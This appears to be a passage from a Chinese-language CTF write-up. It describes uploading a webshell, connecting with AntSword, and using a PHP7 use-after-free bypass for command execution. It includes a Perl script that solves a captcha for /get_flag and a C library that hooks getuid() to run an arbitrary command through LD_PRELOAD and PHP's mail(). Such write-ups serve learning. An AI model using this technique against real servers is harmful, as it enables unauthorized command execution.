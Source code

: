 上传木马后蚁剑链接用 `PHP7_GC_UAF` 即可命令执行, 发现执行 /get_flag 有个验证码(此处为[参考](https://github.com/mdsnins/ctf-writeups/blob/master/2019/Insomnihack%202019/l33t-hoster/exploit.pl))

```c
#!/usr/bin/env perl 
use warnings;
use strict;
use IPC::Open2;

$| = 1;
chdir "/"; #!!!!!!!!!!!!!!!!!!!!!!!!!!

my $pid = open2(\*out2, \*in2, './get_flag') or die;

my $reply = <out2>;
print STDOUT $reply; #string: solve captcha..
$reply = <out2>;
print STDOUT $reply; #captcha formula

my $answer = eval($reply);
print STDOUT "answer: $answer\n"; 

print in2 " $answer "; #send it to process
in2->flush();

$reply = <out2>;
print STDOUT $reply; #flag :D
```

发现上传文件这一块直接用脚本不太好使, 用 mail() 函数绕过

> PHP的 `mail()` 函数调用 `execve("/bin/sh", ["sh", "-c", "/usr/sbin/sendmail -t -i "], ...)` 。由于这种实现，如果我们使用自写动态库设置环境变量 `LD_PRELOAD` ，从而修改 `/bin/sh` 的行为并获得命令执行。 

即使 `/usr/sbin/sendmail` 不存在, 也可以使用, 重写 `getuid()` 函数

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload(char *cmd) {
  char buf[512];
  strcpy(buf, cmd);
  strcat(buf, " > /tmp/_0utput.txt");
  system(buf);}

int getuid() {
  char *cmd;
  if (getenv("LD_PRELOAD") == NULL) { return 0; }
  unsetenv("LD_PRELOAD");
  if ((cmd = getenv("_evilcmd")) != NULL) {
    payload(cmd);
  }
  return 1;
}
```
